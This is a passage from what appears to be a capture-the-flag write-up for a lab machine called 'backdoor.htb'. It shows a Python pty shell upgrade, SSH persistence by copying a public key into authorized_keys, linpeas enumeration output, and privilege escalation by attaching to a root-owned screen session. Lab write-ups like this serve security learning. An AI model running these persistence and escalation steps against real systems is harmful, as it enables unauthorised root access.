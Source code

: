 ## 3.9 Python3 SSH shell
```
python3 -c "import pty; pty.spawn('/bin/bash')"
```

## 3.10 Optional SSH connection
```
TARGET:
ssh-keygen
scp id_rsa.pub authorized_keys

ATTACKER:
chmod 700 id_rsa
ssh -i id_rsa user@backdoor.htb
```

# 4 Privilege Escalation
## 4.1 Enumeration with linpeas
## 4.2 Check output
```
root         839  0.0  0.0   2608  1676 ?        Ss   05:30   0:14 /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done
user      186826  0.0  0.0   6432   732 pts/7    S+   13:51   0:00 grep --color=auto screen
```
## 4.3 Hijack root screen (Multi display mode)
```
screen -x /root/root
-x Attach to a not detached screen. (Multi display mode).
```
Done.
